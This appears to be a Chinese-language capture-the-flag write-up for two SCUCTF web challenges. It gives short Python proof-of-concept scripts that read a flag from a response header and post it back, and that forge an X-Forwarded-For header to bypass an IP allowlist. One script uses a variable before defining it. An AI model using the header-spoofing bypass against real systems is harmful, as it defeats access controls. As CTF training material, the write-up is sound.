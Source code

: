 ## 0x04 fast
SCUCTF还没开始出题人就秀了一把他出的题目，给我看了headers, 我不知道是啥，他说了句，实验吧的天下武功唯快不破。

搜了一下思路有了，拿到flag发送回去就好，poc如下

```python
import requests
import base64

url = 'http://223.129.64.72:5000/'

r = requests.Session()
flag = r.get(url).headers['Flag']

print flag
flag = flag[5:]
# data = base64.b64encode(flag)

# flag = 'flag{%s}' % data
print flag
payload = {
        'flag':flag
        }
t = r.post(url+'flag', data=payload)
# t = r.get(url, params=payload)
print t.url
print t.text
```
但是还有个坑，部署他用的uwsgi, 这个针对时间要求特别高的不行，支持很差，第一天没人提交..23333我是第一天晚上才开始做这次的ctf的，那时候还没人提交这道题。

我问题哪里没对么，他说...服务器没对，2333，他重新搞了下，等我回寝室提交的时候就可以了，但是不是一血，有一个人在我之前提交了。

## 0x05 ip
打开显示
```html
您的IP是：121.48.213.217<br>不在允许范围，本系统仅允许202.115.47.141访问
```
觉得是学校的服务器的网段，扫了下扫不动，后来才知道这个是教务处的233333333333

搜了下找到改`X-Forwarded-For`头就行了，伪造来源ip, 利用的poc如下
```bash

#! coding:utf-8
import requests


url = 'http://119.29.16.200:5004'

r = requests.get(url, headers=payload)
print r.encoding
r.encoding = 'utf-8'
print r.text

payload ={
        'X-Forwarded-For': '202.115.47.141'
        }
r = requests.get(url, headers=payload)
print r.url
print r.encoding
r.encoding = 'utf-8'
print r.text

# D:\Security\scuctf\ip>python ip.py
# http://119.29.16.200:5004/
# ISO-8859-1
```